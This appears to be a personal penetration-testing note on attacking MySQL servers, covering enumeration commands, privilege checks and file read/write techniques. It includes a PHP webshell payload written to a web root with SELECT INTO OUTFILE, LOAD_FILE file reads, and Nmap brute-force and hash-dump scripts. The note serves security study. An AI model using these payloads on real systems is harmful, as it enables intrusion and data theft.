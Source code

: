```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*MySQL* uses a client-server principle with one server and multiple clients. Often stores database as a single `.sql` file.

Often used with (Linux, Apache, MySQL, PHP - *LAMP*) or Nginx (*LEMP*). Very often these databases are accessible from an external network (due to misconfigurations, forgetting settings, or technical workarounds).

**Standard Port:** 
- 3306/tcp - commonly used for MySQL server

**Version Names:** 

| service name | releases link | notes         |
| ------------ | ------------- | ------------- |
| MariaDB      |               | Fork of MySQL |

## Configuration
```
sudo apt install mysql-server -y
```
*/etc/mysql/mysql.conf.d/mysqld.cnf* - [MySQL reference](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html)

### Dangerous Settings
- `user` : Which user to run the service as *(stored plaintext)*
- `password` : Password for the DB user *(stored plaintext)*
- `admin_address` : IP address for the admin network interface *(stored plaintext)*
- `debug` : Current debug settings (eg. logging)
- `sql_warnings` : Whether a single-row INSERT statement should produce warnings
- `secure_file_priv` : Limit the effect of data import and export operations

### Default Setup
- *system schema* (*sys*) : [docs](https://dev.mysql.com/doc/refman/8.0/en/system-schema.html)
	- `host_summary` table contains host information : `select host, unique_users from host_summary;`
- *information schema* (*information_schema*) : metadata database
- *mysql* : system database that information required by MySQL Server
- *performance schema* (*performance_schema*) : feature for monitoring MySQL Server execution at a low level
## [[Basic SQL Syntax]]

## Potential Capabilities
- Potentially gain access to sensitive information in the database
- View sensitive logs and error outputs that could indicate further attack possibilities
- RCE by writing files to executable directories
### RCE (Writing files)
MySQL doesn't have a way to directly execute code (unlike [[MSSQL#RCE]]), but you can write files, meaning you could write a file to an executable dir (eg. a web server root) and then execute it through the web server. 

If the mysql service has enough privileges, it can write using `SELECT INTO OUTFILE`.
```sql
mysql> SELECT "<payload>" INTO OUTFILE '<path>';
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
> The `secure_file_priv` global system variable limits the effects of data import and export operations. These operations can only be performed by users with the `FILE` privilege anyways.
> If `secure_file_priv` is set to:
> - `<empty>` : then the variable has no effect (this is dangerous)
> - `<name of dir>` : only data import/export ops can be performed in that directory (dir must exist, server won't create it)
> - `NULL` : disables all import/export ops

We can check these permissions and variables by:
```SQL
SHOW VARIABLES LIKE 'secure_file_priv';

SELECT variable_name,variable_value FROM information_schema.global_variables WHERE variable_name='secure_file_priv';
```
```SQL
SELECT grantee,privilege_type FROM information_schema.user_privileges WHERE grantee='[user]'
```

> When writing webshells, we need to know the web root dir. There are common ones such as `/var/www/html/` but we can potentially read the config at `/etc/apache2/apache2.conf` or `/etc/nginx/nginx.conf` or `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config` (for IIS / [[MSSQL]])
### Reading Files
If appropriate settings and privileges allow it, we can read files too
```sql
mysql> SELECT LOAD_FILE("<path>");
```

### Checking user privileges
```sql
SELECT super_priv FROM mysql.user
```
This will tell us if our user has the super admin privileges. We can see additional privileges via:
```SQL
SELECT grantee,privilege_type FROM information_schema.user_privileges WHERE grantee='[user]'
```
> Get user with `select user from mysql.user` or `user()`
## Enumeration Checklist

| Goal                          | Command(s)                                                                                                                                                                                  | Refs                                                                                          |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| Identify the service via Nmap | sudo nmap [ip] -sC -sV -p3306 --script mysql*                                                                                                                                               |                                                                                               |
| Connect with a client         | mysql -u [user] -p[password] -h [ip]                                                                                                                                                        | [guide](https://dev.mysql.com/doc/mysql-getting-started/en/#mysql-getting-started-installing) |
| Show information              | show databases;<br><br>use [database name];<br><br>show tables;<br><br>show columns from [table];<br><br>select \* from [table];<br><br>select \* from [table] where [column] = "[string]"; |                                                                                               |
| Get version                   | select version();                                                                                                                                                                           |                                                                                               |
| Linux GUI App                 | sudo dpkg -i dbeaver-<version>.deb<br><br>dbeaver &                                                                                                                                         | [https://github.com/dbeaver/dbeaver/releases](https://github.com/dbeaver/dbeaver/releases)    |
| User information              | select user()<br><br>select current_user()<br><br>select user from mysql.user                                                                                                               |                                                                                               |
### Nmap Scripts
> always manually validate results for false positives
- mysql*
- mysql-brute
- mysql-databases
- mysql-dump-hashes
- mysql-empty-password
- mysql-enum
- mysql-info
- mysql-users
- mysql-variables
- mysql-vuln*